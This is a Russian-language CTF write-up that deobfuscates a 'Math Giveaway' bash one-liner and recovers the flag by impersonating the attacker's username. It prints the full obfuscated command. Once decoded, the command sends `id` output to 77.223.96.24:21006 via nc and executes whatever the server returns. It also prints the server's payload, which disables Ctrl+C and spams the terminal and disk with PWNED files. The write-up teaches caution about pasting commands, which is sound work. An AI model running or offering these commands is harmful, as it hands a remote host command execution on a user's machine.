 # Math Giveaway writeup
Запустим то, что нам дано (спойлер: Лучше так никогда не делать и всегда интересоваться, что запускаешь)

```bash
$ bash -c 'echo "[*] Flag getter v1.0. Just tell me what is 2*2+2 and get yo flag!"; read q; if ! [[ $q -eq 6 ]]; then echo "[!] Incorrect answer :c"; else echo "[.] Gettin yo flag, please, stand by..."; srv="`echo "127.0.0.1" | sed "s/12/7/g" | sed "s/1/24/g" | sed "s/7.0/7.q/g" | sed "s/0/96/g" | sed "s/q/223/g"` `expr $(expr $(expr 20 \* 15)) \* $(expr $(expr 20 \* 5) - 30) + 6`"; if [[ `$(echo "==QPN1mY" | rev | base64 -d | base64 -d) -z ${srv};` -eq 0 ]]; then sleep 3; bash -c "`(echo "JZDFGQJ5HU6T2===" | base32 -d | base32 -d | bash;) | $(bash -c "echo bmM= | base64 -d") -n $(echo "${srv}")`"; else echo "[!] Plz check ur internet connection"; fi; fi;'
[*] Flag getter v1.0. Just tell me what is 2*2+2 and get yo flag!
```

`2 * 2 + 2 = 6`

```bash
6   
[.] Gettin yo flag, please, stand by...
```

Это занимает некоторое время...

```bash
<skull ascii art>

WELL, sultanowskii != 5up3r_U53r_2004.
LMAO U GOT PWNED. NOW I WILL HAVE SOME FUN ON UR PC.
NEVER RUN STRANGE COMMANDS ANYMORE.
NOW GO AND READ THE SHIT YOU HAVE PASTED TO TERMINAL HAHAHA.
```

А после начинают появляться файлы **PWNED** и наша консоль заспамлена мусором:

```bash
$ PWNED BY 5up3r_U53r_2004
PWNED BY 5up3r_U53r_2004
PWNED BY 5up3r_U53r_2004
PWNED BY 5up3r_U53r_2004
PWNED BY 5up3r_U53r_2004
ls
PWNED1  PWNED2  PWNED3  PWNED4  PWNED5  PWNED6
```

Нас ломанули, все что нам осталось делать - изучать, что мы запустили. Для начала, давайте сделаем эту шнягу более читаемой, добавив пробелы и новые строки:

```bash
echo "[*] Flag getter v1.0. Just tell me what is 2*2+2 and get yo flag!";
read q; 
if ! [[ $q -eq 6 ]];
then 
	echo "[!] Incorrect answer :c";
else 
	echo "[.] Gettin yo flag, please, stand by...";
	srv="`echo "127.0.0.1" | sed "s/12/7/g" | sed "s/1/24/g" | sed "s/7.0/7.q/g" | sed "s/0/96/g" | sed "s/q/223/g"` `expr $(expr $(expr 20 \* 15)) \* $(expr $(expr 20 \* 5) - 30) + 6`"; 
	if [[ `$(echo "==QPN1mY" | rev | base64 -d | base64 -d) -z ${srv};` -eq 0 ]];
	then
		sleep 3;
		bash -c "`(echo "JZDFGQJ5HU6T2===" | base32 -d | base32 -d | bash;) | $(bash -c "echo bmM= | base64 -d") -n $(echo "${srv}")`";
	else
		echo "[!] Plz check ur internet connection";
	fi;
fi;
```

Это выглядит более читаемо. Поковыряем один за другим блоки команд:

```bash
$ echo "`echo "127.0.0.1" | sed "s/12/7/g" | sed "s/1/24/g" | sed "s/7.0/7.q/g" | sed "s/0/96/g" | sed "s/q/223/g"` `expr $(expr $(expr 20 \* 15)) \* $(expr $(expr 20 \* 5) - 30) + 6`"
77.223.96.24 21006
$ echo "==QPN1mY" | rev | base64 -d | base64 -d             
nc
$ echo "JZDFGQJ5HU6T2===" | base32 -d | base32 -d           
id
$ bash -c "echo bmM= | base64 -d"  
nc
```

Заменим блоки команд на то, что они возвращают:

```bash
echo "[*] Flag getter v1.0. Just tell me what is 2*2+2 and get yo flag!";
read q; 
if ! [[ $q -eq 6 ]];
then 
	echo "[!] Incorrect answer :c";
else 
	echo "[.] Gettin yo flag, please, stand by...";
	srv="77.223.96.24 21006"; # destination address
	if [[ `nc -z ${srv};` -eq 0 ]]; # check if server is availiable
	then
		sleep 3;
		bash -c "`id | nc -n $(echo "${srv}")`"; # sending the output of id command to the server and execute everything that server returned.
	else
		echo "[!] Plz check ur internet connection";
	fi;
fi;
```

Теперь скрипт стал более понятным. Он подсоединяется к **77.223.96.24 21006** (заранее проверяя, может ли он туда достучаться) и засылает туда вывод команды `id`. Потом, скрипт выполняет команды, присылаемые сервером.

Пример вывода команды `id`:

```bash
$ id
uid=1000(sultanowskii) gid=1000(sultanowskii) groups=1000(sultanowskii),24(cdrom),25(floppy)
```

Вернемся к скрипту. Чтобы понять, что делает сервер, давайте ручками зашлем вывод `id` на сервер (используя конвейер - `|`):

```bash
$ echo "`id | nc 77.223.96.24 21006`"
echo ""; echo ""; echo "============ PWNED BY 5up3r_U53r_2004 ============"; echo "     .... NO! ...                  ... MNO! ..."; echo "   ..... MNO!! ...................... MNNOO! ..."; echo " ..... MMNO! ......................... MNNOO!! ."; echo ".... MNOONNOO!   MMMMMMMMMMPPPOII!   MNNO!!!! ."; echo " ... !O! NNO! MMMMMMMMMMMMMPPPOOOII!! NO! ...."; echo "    ...... ! MMMMMMMMMMMMMPPPPOOOOIII! ! ..."; echo "   ........ MMMMMMMMMMMMPPPPPOOOOOOII!! ....."; echo "   ........ MMMMMOOOOOOPPPPPPPPOOOOMII! ...  "; echo "    ....... MMMMM..    OPPMMP    .,OMI! ...."; echo "     ...... MMMM::   o.,OPMP,.o   ::I!! ..."; echo "         .... NNM:::.,,OOPM!P,.::::!! ...."; echo "          .. MMNNNNNOOOOPMO!!IIPPO!!O! ....."; echo "         ... MMMMMNNNNOO:!!:!!IPPPPOO! ...."; echo "           .. MMMMMNNOOMMNNIIIPPPOO!! ......"; echo "          ...... MMMONNMMNNNIIIOO!.........."; echo "       ....... MN MOMMMNNNIIIIIO! OO .........."; echo "    ......... MNO! IiiiiiiiiiiiI OOOO ..........."; echo "  ...... NNN.MNO! . O!!!!!!!!!O . OONO NO! ........"; echo "   .... MNNNNNO! ...OOOOOOOOOOO .  MMNNON!........"; echo "   ...... MNNNNO! .. PPPPPPPPP .. MMNON!........"; echo "      ...... OO! ................. ON! ......."; echo "         ................................"; echo "==================================================="; echo ""; echo "WELL, sultanowskii != 5up3r_U53r_2004."; echo "LMAO U GOT PWNED. NOW I WILL HAVE SOME FUN ON UR PC."; echo "NEVER RUN STRANGE COMMANDS ANYMORE."; echo "NOW GO AND READ THE SHIT YOU HAVE PASTED TO TERMINAL HAHAHA.";
trap '' 2
(for i in {1..10000000};
do
    touch "PWNED${i}";
    echo "PWNED BY 5up3r_U53r_2004";
    sleep 1;
done; ) &
```

И сервер возвращает нам ряд команд, которые будут выполнены скриптом, который мы запустили. Если же не засылать на сервер вывод id, а просто попытаться поговорить, то ничего не произойдет:

```bash
$ nc 77.223.96.24 21006
?
GTFO, not ur business
$ nc 77.223.96.24 21006
asdadaadgaazxchzjkc
GTFO, not ur business
```

Рассмотрим сообщение:

```bash
============ PWNED BY 5up3r_U53r_2004 ============
     .... NO! ...                  ... MNO! ...
   ..... MNO!! ...................... MNNOO! ...
 ..... MMNO! ......................... MNNOO!! .
.... MNOONNOO!   MMMMMMMMMMPPPOII!   MNNO!!!! .
 ... !O! NNO! MMMMMMMMMMMMMPPPOOOII!! NO! ....
    ...... ! MMMMMMMMMMMMMPPPPOOOOIII! ! ...
   ........ MMMMMMMMMMMMPPPPPOOOOOOII!! .....
   ........ MMMMMOOOOOOPPPPPPPPOOOOMII! ...  
    ....... MMMMM..    OPPMMP    .,OMI! ....
     ...... MMMM::   o.,OPMP,.o   ::I!! ...
         .... NNM:::.,,OOPM!P,.::::!! ....
          .. MMNNNNNOOOOPMO!!IIPPO!!O! .....
         ... MMMMMNNNNOO:!!:!!IPPPPOO! ....
           .. MMMMMNNOOMMNNIIIPPPOO!! ......
          ...... MMMONNMMNNNIIIOO!..........
       ....... MN MOMMMNNNIIIIIO! OO ..........
    ......... MNO! IiiiiiiiiiiiI OOOO ...........
  ...... NNN.MNO! . O!!!!!!!!!O . OONO NO! ........
   .... MNNNNNO! ...OOOOOOOOOOO .  MMNNON!........
   ...... MNNNNO! .. PPPPPPPPP .. MMNON!........
      ...... OO! ................. ON! .......
         ................................
===================================================

WELL, sultanowskii != 5up3r_U53r_2004.
LMAO U GOT PWNED. NOW I WILL HAVE SOME FUN ON UR PC.
NEVER RUN STRANGE COMMANDS ANYMORE.
NOW GO AND READ THE SHIT YOU HAVE PASTED TO TERMINAL HAHAHA.
```

Ник атакующего - `5up3r_U53r_2004`. Интересным моментом в сообщении является то, что наш юзернейм сранивается с `5up3r_U53r_2004` (например, `sultanowskii != 5up3r_U53r_2004`). Это наводит на мысль, что скрипт проверяет, является ли вызывающий `5up3r_U53r_2004` или нет. Давайте посмотрим, что ответит сервер пользователю с юзернеймом `5up3r_U53r_2004`. Для этого создадим пользователя и залогинимся под ним:

```bash
$ # create user with name 5up3r_U53r_2004
$ sudo adduser 5up3r_U53r_2004 --force-badname
<user creation procedure>
$ # login as 5up3r_U53r_2004 in terminal
$ su - 5up3r_U53r_2004
```

Запустим скрипт:

```bash
$ # run the given command
$ bash -c 'echo "[*] Math Giveaway v1.0. Just tell me what is 2*2+2 and get yo flag!"; read q; if ! [[ $q -eq 6 ]]; then echo "[!] Incorrect answer :c"; else echo "[.] Gettin yo flag, please, stand by..."; srv="`echo "127.0.0.1" | sed "s/12/7/g" | sed "s/1/24/g" | sed "s/7.0/7.q/g" | sed "s/0/96/g" | sed "s/q/223/g"` `expr $(expr $(expr 20 \* 15)) \* $(expr $(expr 20 \* 5) - 30) + 6`"; if [[ `$(echo "==QPN1mY" | rev | base64 -d | base64 -d) -z ${srv}; echo $?;` -eq 0 ]]; then sleep 3; bash -c "`(echo "JZDFGQJ5HU6T2===" | base32 -d | base32 -d | bash;) | $(bash -c "echo bmM= | base64 -d") -n $(echo "${srv}")`"; else echo "[!] Plz check ur internet connection"; fi; fi;'
[*] Math Giveaway v1.0. Just tell me what is 2*2+2 and get yo flag!
6
[.] Gettin yo flag, please, stand by...
WELL, 5up3r_U53r_2004 == 5up3r_U53r_2004.
li2CTF{4lw4y5_ch3ck_wh47_u_CTRL+C_and_CTRL+V_70_ur_73rm1n4l!}
```

Флаг: `li2CTF{4lw4y5_ch3ck_wh47_u_CTRL+C_and_CTRL+V_70_ur_73rm1n4l!}`

